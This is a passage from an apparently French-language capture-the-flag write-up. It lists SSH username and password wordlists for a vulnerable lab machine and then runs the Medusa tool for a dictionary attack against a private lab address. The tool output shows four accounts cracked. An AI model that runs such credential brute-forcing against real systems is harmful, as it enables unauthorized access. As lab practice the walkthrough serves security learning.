 ```console
root@blinils:~# cat lampsec_SSHusers.txt 
root
justin
bob
eve
alice

root@blinils:~# cat lampsec_SSHpasswords.txt
hacking
madirish.net
billybob
invisible
$investment$
```

Plutôt que de tester les vingt-cinq combinaisons à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) va automatiser cette attaque par dictionnaire !

```console
root@blinils:~# medusa -h 192.168.56.103 -U lampsec_SSHusers.txt -P lampsec_SSHpasswords.txt -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: invisible (4 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: root (1 of 5, 0 complete) Password: $investment$ (5 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: justin (2 of 5, 1 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: justin (2 of 5, 1 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: justin Password: madirish.net [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: bob (3 of 5, 2 complete) Password: billybob (3 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: bob Password: billybob [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: invisible (4 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: eve Password: invisible [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: invisible (4 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: $investment$ (5 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: alice Password: $investment$ [SUCCESS]
```